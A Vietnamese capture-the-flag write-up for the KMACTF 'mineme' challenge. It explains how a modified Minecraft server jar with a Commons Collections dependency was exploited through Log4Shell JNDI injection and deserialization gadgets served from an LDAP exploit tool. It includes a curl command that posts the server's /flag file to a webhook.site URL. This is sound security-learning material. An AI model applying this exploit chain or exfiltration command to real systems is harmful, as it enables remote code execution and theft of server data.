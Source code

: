 # Solution


Bài viết gốc có thể xem tại [đây](https://hackmd.io/@taidh/Bk94PZjt9).

Mình mới học về log4j cách đâu 2 ngày nhưng may thay được dịp gặp được cái chall về nó nên sẽ viết về solution mà chủ yếu từ wu của một đàn anh.

Server cho một file `server_1.15.jar` và để ta có thể dùng `tlauncher` để debug local.
Nhờ vào decription của tác giả ta có thể lên mạng tìm một version khác của nó để check sự khác biệt (mình có tải sẵn ở [đây](https://github.com/to016/CTFs/blob/main/2022/KMACTF/mineme/mineme/app/server.jar) )

Dùng intellij idea để kiểm tra sự khác nhau của 2 `.jar` file

![diff](https://user-images.githubusercontent.com/77546253/174476296-12876d99-e575-46ac-b33a-ce20413a2d12.png)


Ta có thể thấy bên file của đề có sử dụng `collections` và cũng có rất nhiều gadget chain phổ biến với nó. Việc còn lại là set up một ldap server để có thể transer serialized data. Cách này vừa có thể giúp ta khai khác log4j + deserialization vừa bypass được các version mới của jdk. Có thể dùng tool [này](https://github.com/WhiteHSBG/JNDIExploit).

![log4j_exploitable](https://user-images.githubusercontent.com/77546253/174476309-7bd4b92a-78ad-47ed-a001-fc3f6b97b512.png)

Đầu tiên ta thử ở local với command `calc.exe`

![local_test](https://user-images.githubusercontent.com/77546253/174476297-de034404-4216-41d1-bba7-9086bbe830f9.png)



OK giờ thử trên server của giải: `149.28.135.96:13337` với payload: `curl -X POST -d @/flag https://webhook.site/ac119b03-212f-443a-aca6-5e230bfc7544`

Encode payload:

![encode_payload](https://user-images.githubusercontent.com/77546253/174476303-a41d0b56-c1f5-489d-8518-d2be2dbe0da0.png)


Kết quả:

![flag](https://user-images.githubusercontent.com/77546253/174476325-e02aa983-a592-43be-babe-f571a0cba74f.png)





